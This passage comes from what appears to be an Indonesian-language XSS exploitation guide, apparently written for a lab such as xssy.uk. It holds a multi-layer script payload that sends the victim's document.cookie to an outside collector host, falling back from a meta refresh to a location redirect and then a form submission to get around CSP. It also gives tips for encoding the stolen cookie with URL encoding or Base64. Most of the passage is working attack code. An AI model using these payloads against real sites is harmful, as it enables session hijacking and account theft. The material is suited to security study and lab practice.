 
### 4️⃣ Template Payload Multi-Layer Defense

Gunakan fallback mechanism untuk maximize success rate:

```javascript
<script>
// Layer 1: Try Meta Refresh (Best for strict CSP)
try {
  var meta = document.createElement('meta');
  meta.httpEquiv = 'refresh';
  meta.content = '0;url=https://eqh42jmm.xssy.uk/?c=' + 
                 encodeURIComponent(document.cookie);
  document.head.appendChild(meta);
} catch(e1) {
  // Layer 2: Fallback to location redirect
  try {
    location.href = 'https://eqh42jmm.xssy.uk/?c=' + 
                    encodeURIComponent(document.cookie);
  } catch(e2) {
    // Layer 3: Last resort - form submission
    try {
      var form = document.createElement('form');
      form.method = 'GET';
      form.action = 'https://eqh42jmm.xssy.uk/';
      var input = document.createElement('input');
      input.name = 'c';
      input.value = document.cookie;
      form.appendChild(input);
      document.body.appendChild(form);
      form.submit();
    } catch(e3) {
      // All failed - log to console for debugging
      console.error('All exfiltration methods blocked');
    }
  }
}
</script>
```

---

### 5️⃣ Tips & Tricks

#### Encoding Data
Selalu encode data untuk menghindari masalah dengan special characters:
```javascript
// BAD: Data bisa corrupt jika ada special chars
location = 'https://eqh42jmm.xssy.uk/?c=' + document.cookie;

// GOOD: URL encode untuk safety
location = 'https://eqh42jmm.xssy.uk/?c=' + 
           encodeURIComponent(document.cookie);

// BEST: Base64 encode untuk binary data
location = 'https://eqh42jmm.xssy.uk/?c=' + 
           btoa(document.cookie);
```
